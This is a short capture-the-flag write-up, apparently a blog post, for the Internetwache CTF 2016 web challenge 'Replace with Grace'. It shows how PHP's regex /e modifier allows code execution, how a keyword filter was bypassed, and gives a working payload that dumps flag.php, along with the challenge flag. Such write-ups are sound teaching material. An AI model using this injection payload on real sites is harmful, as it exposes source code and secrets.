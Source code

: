 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.
```
IW{R3Pl4c3_N0t_S4F3}
```
